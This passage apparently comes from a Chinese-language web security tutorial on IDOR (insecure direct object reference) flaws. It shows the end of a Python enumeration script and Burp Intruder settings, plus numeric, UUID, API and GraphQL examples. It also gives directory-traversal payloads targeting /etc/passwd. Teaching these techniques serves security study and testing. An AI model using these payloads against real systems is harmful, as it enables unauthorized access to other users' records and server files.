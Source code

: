 ```python
    
    vulnerabilities = test_idor(base_url, start_id, end_id, session_cookie)
    print(f"\n總共發現 {len(vulnerabilities)} 個可能的IDOR漏洞")
```

**5.3.3 不同類型的IDOR**：

**數字型IDOR**：

```bash
# 順序遞增的ID
/user/1 → /user/2 → /user/3

# Burp Intruder設定
POST /api/user/§1§/profile
Payload type: Numbers
From: 1, To: 1000, Step: 1
```

**GUID/UUID型IDOR**：

```bash
# 看似隨機但可能可預測
/user/550e8400-e29b-41d4-a716-446655440000

# 如果UUID算法可預測，仍然可以枚舉
# 分析多個UUID，尋找模式
```

**檔案路徑IDOR**：

```bash
# 直接檔案路徑存取
/download/file1.pdf → /download/file2.pdf
/uploads/doc_123.docx → /uploads/doc_124.docx

# 目錄遍歷結合IDOR
/download/../../../etc/passwd
/files/..%2F..%2F..%2Fetc%2Fpasswd
```

**API端點IDOR**：

```bash
# RESTful API IDOR
GET /api/v1/users/123
PUT /api/v1/users/124
DELETE /api/v1/orders/456

# GraphQL IDOR
query {
  user(id: 123) {
    email
    profile
  }
}
```
